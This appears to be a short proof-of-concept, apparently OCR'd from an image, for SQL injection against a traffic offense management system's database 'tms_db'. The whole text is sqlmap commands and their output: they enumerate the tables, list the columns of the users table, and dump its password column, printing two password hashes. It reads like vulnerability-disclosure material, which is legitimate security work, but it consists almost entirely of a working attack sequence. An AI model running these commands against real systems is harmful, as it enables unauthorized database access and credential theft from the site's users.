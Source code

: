 ```bash
$ sqlmap -r Documents/plottedtms/test.req --tables -D tms_db
```
```
Database: tms_db
[7 tables]
+---------------+
| drivers_list  |
| drivers_meta  |
| offense_items |
| offense_list  |
| offenses      |
| system_info   |
| users         |
+---------------+
```

```bash
$ sqlmap -r test.req --columns -T users
```
```
Database: tms_db
Table: users
[10 columns]
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| avatar       | text         |
| date_added   | datetime     |
| date_updated | datetime     |
| firstname    | varchar(250) |
| id           | int          |
| last_login   | datetime     |
| lastname     | varchar(250) |
| password     | text         |
| type         | tinyint(1)   |
| username     | text         |
+--------------+--------------+
```

```bash
sqlmap -r test.req -tables -D tms_db -T users -C password -dump
```
```
Database: tms_db
Table: users
[2 entries]
+----------------------------------+
| password                         |
+----------------------------------+
| 1254737c076cf867dc53d60a0364f38e |
| 14d147dc0ba2fed434e7fd176dc87fdc |
+----------------------------------+
```
